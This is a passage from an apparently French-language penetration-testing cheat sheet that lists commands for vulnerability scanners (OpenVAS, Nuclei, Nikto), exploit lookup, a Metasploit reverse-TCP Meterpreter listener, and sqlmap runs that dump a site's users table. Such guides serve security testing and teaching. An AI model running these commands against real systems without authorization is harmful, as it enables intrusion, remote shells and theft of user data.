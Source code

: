 **OpenVAS** : Scanner open source
```bash
openvas-setup
openvas-start
```

**Nuclei** : Scanner moderne basé sur templates
```bash
nuclei -u https://example.com
nuclei -l urls.txt -t cves/
```

**Nikto** : Spécifique web
```bash
nikto -h https://example.com -Format htm -output report.html
```

### Analyse manuelle
**Searchsploit** : Recherche d'exploits
```bash
searchsploit apache 2.4
searchsploit -m 12345
```

**CVE Search** :
```bash
cve_search.py --product apache --version 2.4.41
```

## 4. Exploitation

### Frameworks d'exploitation
**Metasploit** :
```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit
```

**Exploit-DB** :
```bash
searchsploit -m 12345
python exploit.py target_ip
```

### Exploitation Web
**SQLmap** : Injection SQL
```bash
sqlmap -u "http://example.com/page.php?id=1" --dbs
sqlmap -u "http://example.com/page.php?id=1" -D database --tables
sqlmap -u "http://example.com/page.php?id=1" -D database -T users --dump
```
